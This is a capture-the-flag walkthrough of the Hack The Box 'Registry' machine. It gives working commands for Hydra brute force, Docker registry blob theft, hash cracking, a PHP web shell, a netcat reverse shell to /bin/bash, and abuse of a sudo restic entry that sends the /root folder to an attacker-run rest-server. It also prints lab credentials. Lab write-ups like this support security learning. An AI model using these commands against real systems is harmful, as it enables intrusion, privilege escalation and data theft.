 # REGISTRY write-up
![](images/logo.png)

Registry is a hard difficulty Linux machine, which features Docker and the Bolt CMS running on Nginx. Docker registry API access is configured with default credentials, which allows us to pull the repository files. Using the disclosed information it is possible to obtain an initial foothold. User credentials for Bolt CMS can be obtained, and exploiting the CMS provides us with access to the www-data user, who has a sudo entry to perform backups as root using the restic program. After taking a backup of the root folder remotely and mounting the repository with restic, the root flag is obtained.

**Setup**

Target Subject | More info
------------ | -------------
Enumeration | [https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997](https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997)
Port Forwarding | ([https://www.ssh.com/ssh/tunneling/example](https://www.ssh.com/ssh/tunneling/example)
Docker API | [https://docs.docker.com/registry/](https://docs.docker.com/registry/)
Web Exploitation | [https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title](https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title)
Restic Exploitation | [https://restic.net/](https://restic.net/)

I decided to use COMMANDO from FireEye for this machine because I initially thought this was a Windows box.
#
**INITIAL RECON**

- [x] services? used -  **NMAP**
![](images/nmap.png)
- [x] default creds anywhere?  -  **WEB**
- username/password

- [ ] If HTTP, webpage discoveries (manual)?
- nothing special

- [x] If HTTP, directory discovery (automated)? - **GOBUSTER**
- [ ] SMB? -
- [x] Brute force password anywhere? - **HYDRA**

**Scan assessment**:

-   22/tcp - Typical OpenSSH2.0 running on a Ubuntu box.
    
-   80/tcp & 443/tcp - running nginx 1.14.0. TLS certificate has a subdomain of **docker.registry.htb**

-- Added: docker.registry.htb to my hosts file.     --

#
**INITIAL ACCESS**
*Docker Registry predictable  username password*
-   There's a good exploit explanation here: [https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/)
![](images/hydra.png)
-   navigating to http://docker.registry.htb/v2/ produces a log-in prompt   

    -   brute forcing is needed since no other information is present. I tried typical username of ADMIN: bash.exe  -c "hydra -e nsr -l admin -P /usr/share/wordlists/rockyou.txt docker.registry.htb http-get /v2/ -Vf"

BruteForce was successful because of a predictable username/password combo and hydra's (**-e nsr**) which does 3 password attempts: the username as the password, username with blank password, and backwards username as password.

#
**OBTAIN USER FLAG**
1. According the website discovered during my recon, check for docker images then eventually download the manifest file: http://docker.registry.htb/v2/bolt-image/manifests/latest
    - Notice the blobs in the manifest file
![](images/manifest.png)
2. Download the blobs (i.e. the docker image pieces of the container):
    - $cred = New-Object System.Management.Automation.PSCredential -ArgumentList @('admin',(ConvertTo-SecureString -String 'admin' -AsPlainText -Force)) *** This creates an admin:admin object that can be used to log into the site.
    - Select-String .\manifests.txt -Pattern blobsum | % {($_ -split "\s+")[2] -replace '"',""} | % { wget -Credential $cred "http://docker.registry.htb/v2/bolt-  
image/blobs/$_" -PassThru -OutFile "$_".Replace(':','_') }
--NOTE--
Windows has an issues with filenames containing a semicolon ( : ), so I had to replace the semicolon with an underscore .
3.    Check the file types, bash.exe  -c  "file sha*". According to the registry website. The files are typically stored as tarballs. So they'll need to be renamed in order to extract them
    - Rename the files to tar.gz: ls "sha*" | ren -NewName {$_.name + ".tar.gz" }
    - use tar.exe to extract: ls *.tar.gz | % {tar.exe -xvf $_}
4. This is a HTB machine so typically the HOME directories and webserver DIR(s) are the most important. Lets start at with the **root** DIR:
    - cat the bashrc_history file in ROOT's DIR and notice username for ssh
![](images/bashrc.png)
    - cat viminfo file in ROOT's DIR and notice prior vim usage.
    - cat ..\etc\profile.d\01-ssh.sh
![](images/01-ssh.png)
5. The passphrase for the ssh key is there: **bolt:GkOcz221Ftb3ugog**
6. Use id_rsa private key to log in and cat user.txt

#
**RECON WITH ACCESS**
7. enumerate bolt DIR
     - Nothing interesting
8. enumerate webserver DIR
    - notice the restic backup service in /var/www/html/backup.php
![](images/backupPHP.png)
    - notice a .db file readable by everyone. I tried to look for 'admin', 'bolt', and 'root'. Using 'root' was fruitful
![](images/boltDB.png)
9. Crack with John: bash -c "john --wordlist=/usr/share/wordlists/rockyou.txt database.hash"
    - discover creds: **admin:strawberry**
10. Looked like installed app is called bolt (i.e. bolt/bolt)
    - https://github.com/bolt/bolt (the CMS' github)

#
**OBTAIN ROOT FLAG**
1.    Navigate to registry.htb/bolt/bolt
- login using admin creds
2. Machine doesn't allow reverse shells to attack machine so open a nc listener as user bolt and create a RCE php file
- nc -nvvlp 1337
- php:
> <?php  $cmd=$_GET['cmd']; system($cmd);

    
3.  Navigate to CONFIGURATION >> MAIN CONFIGURATION.
4.  Add php as one of the allowed file types.    
5.  Upload RCE php and navigate to the following: **registry.htb/bolt/files/shell.php?cmd=nc.traditional -ne /bin/bash 127.0.0.1 1337**
![](images/ncReverse.png)
7.  sudo -l and notice:

>     User www-data may run the following commands on bolt:
>             (root) NOPASSWD: /usr/bin/restic backup -r rest*

Since I found backup earlier and then again as sudo -l, I figured that the vulnerability was involving a rogue backup operation using restic. I switch over to the kali container on COMMANDO to download tools that I would need.

  

1.  Install the restic service: **apt install restic**    
2.  pull the rest server: [https://github.com/restic/rest-server](https://github.com/restic/rest-server)    
3.  initial repository directory: restic init -r /tmp/restic (/tmp/restic is default directory for rest-server according to its documentation)    
4.  install rest-server: **CGO_ENABLED=0 go build -o rest-server ./cmd/rest-server**    
5.  run server: **./rest-server --no-auth** (default listening port is 8000)    
6.  Setup reverse SSH tunnel: **ssh bolt@registry.htb -i bolt.key -R 8000:localhost:8000**    
7.  Invoke sudo vulnerability on victim as www-data: **sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root**
    

The victim /root DIR was sent back to my attack machine. Then it was just a matter of restoring the back up and obtaining the root.txt

1.  restic restore -v -t /tmp/ -r /tmp/restic/ 56e60c8fbac4cd31f134f4af22ffe97fe95b9653c522e049f66aa6f1eaf65b3c
    - Can you also just do **latest** as well as opposed to using the snapshot hash unless you made the victim backup multiple tings.
2. cat root.txt
![](images/end.png)
